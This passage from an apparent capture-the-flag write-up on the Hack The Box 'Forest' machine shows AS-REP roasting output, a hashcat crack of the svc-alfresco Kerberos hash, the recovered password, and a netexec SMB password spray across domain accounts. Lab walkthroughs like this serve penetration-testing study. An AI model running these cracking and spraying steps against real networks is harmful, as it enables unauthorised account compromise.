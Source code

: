 ```
/home/n_emperor/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

- To get the password I cracked the TGT using hashcat and got the password
```bash
hashcat -a 0 hash /usr/share/wordlists/rockyou.txt
```
- Output:
```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:96ff40e8c8c6d4249819d886c49788a1$......<redacted>:<Password-Redacted>
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:96ff40e8c8c6d4...fc3980
Time.Started.....: Mon Jan 13 21:57:43 2025 (1 sec)
Time.Estimated...: Mon Jan 13 21:57:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6121.8 kH/s (1.69ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4096000/14344385 (28.55%)
Rejected.........: 0/4096000 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s9039554h -> s/nd/0s
Hardware.Mon.#1..: Temp: 66c Util: 25%

```
- Now I have full access over user `svc-alfresco` (Password is not redacted down here, Enjoy!😉). I initiated password spraying attack on SMB. This is what I usually do when I get a new password. But I didn't get any hit on other accounts, Which is sad 😥 to be honest.
```
❯ netexec smb htb.local -u users.txt -p 's3rvice' --shares --continue-on-success
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [-] htb.local\Administrator:s3rvice STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\krbtgt:s3rvice STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastein:s3rvice STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\lucinda:s3rvice STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.10.10.161    445    FOREST           [-] htb.local\andy:s3rvice STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\mark:s3rvice STATUS_LOGON_FAILURE 
SMB         10.10.10.161    445    FOREST           [-] htb.local\santi:s3rvice STATUS_LOGON_FAILURE 
```
